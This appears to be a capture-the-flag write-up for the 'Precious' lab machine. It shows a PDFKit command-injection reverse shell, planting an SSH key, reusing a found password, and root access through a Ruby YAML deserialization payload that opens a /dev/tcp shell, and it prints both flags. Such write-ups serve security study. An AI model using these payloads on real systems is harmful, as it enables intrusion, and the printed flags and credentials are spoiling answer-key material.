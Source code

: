 # Precious

First, I scan the remote host.

```sh
nmap -sC -sV 10.10.11.189
```

I have 2 ports :

I add vhost dns on local with `echo '10.10.11.189 precious.htb' | tee -a /etc/hosts`. The web service runs on `nginx 1.18.0`, I find a code injection for the form :

```sh
http://%20`sleep 1`		# it sleeps
```

Then I find a vulnerability on this [tool](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795). I start a netcat listener on local :

```sh
nc -lnvp 1234
```

And I inject this code into the form on remote :

```
http://%20`python3 -c 'import sys, socket, os, pty; s=socket.socket(); s.connect(("10.10.14.9", 1234)); [os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]; pty.spawn("sh")'`
```

I get the reverse shell as `ruby` :

I upgrade shell with `python3 -c "import pty;pty.spawn('/bin/bash')"`. I create a SSH key on local with `ssh-keygen` and I add the public key on remote `/home/ruby/.ssh/authorized_keys`. Now, I have SSH access and a real shell with `ssh ruby@precious`. I check all ruby's files with `find / -gid 1001 2>/dev/null` and there is an interesting file :

I check the file content and I find henry's credentials :

Thus I can try SSH connection with `henry:Q3c1AqGHtoI0aXAYFH` such as `ssh henry@precious.htb`. It works :

```sh
cat /home/henry/user.txt		# ad5ba96b48aca44ae51270e61073c733
```

As `henry`, I check sudo permissions with `sudo -l` and I get :

I can execute with no password :

```sh
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

* `secure_path` : the variable `PATH` in the command execution environment has the `secure_path` value.
* `mail_badpass` : if I fail a sudo command, it will log it.
* `env_reset` : the command is executed in a new minimal environment with these variables \[TERM, PATH, HOME, MAIL, SHELL, LOGNAME, USER, USERNAME, SUDO\_\*].

The `/opt/update_dependencies.rb` file's content is :

```rb
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

And the `dependencies.yaml` content is :

```yml
yaml: 0.1.1
pdfkit: 0.8.6
```

To execute the script, I have to go to specific location :

The script goes right only because I'm on the `/opt/sample` path. If I go to `home/henry`, it throws an exception. Thus the script loads the `dependencies.yml` form the current working directory. I create a new `dependencies.yml` at `/home/henry` and add it the following code block :

```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'bash -i >& /dev/tcp/10.10.14.9/1234 0>&1'"
         method_id: :resolve
```

Source : https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/

I start a netcat listener on the local host with `nc -lnvp 1234` and execute the instruction :

```sh
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

I gain root privilege on remote host !

```sh
cat /root/root.txt      # 0b2ae664fc993cdfa6f7ba31751ce6b2
```
